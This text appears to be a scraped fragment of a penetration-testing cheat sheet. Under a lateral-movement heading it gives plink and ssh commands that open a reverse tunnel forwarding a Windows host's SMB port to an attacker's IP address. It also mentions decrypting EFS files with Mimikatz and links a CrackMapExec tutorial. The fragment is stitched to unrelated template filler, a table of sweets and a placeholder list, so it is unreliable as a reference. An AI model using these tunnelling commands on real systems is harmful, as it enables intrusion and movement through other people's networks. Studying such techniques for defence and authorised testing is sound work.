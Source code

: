 

Decrypt EFS Files with Mimikatz if Admin/System

```

```





[](#header-2)Lateral Movement

Plink

```
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS

#Windows 1803 Built in SSH Client (By Default)

ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```



CrackMapExec

```
#https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-lateral-movement/
```













###### [](#header-6)Header 6

| head1        | head two          | three |
|:-------------|:------------------|:------|
| ok           | good swedish fish | nice  |
| out of stock | good and plenty   | nice  |
| ok           | good `oreos`      | hmm   |
| ok           | good `zoute` drop | yumm  |

### There's a horizontal rule below this.

* * *

### Here is an unordered list:

*   Item foo
*   Item bar
*   Item baz
*   Item zip

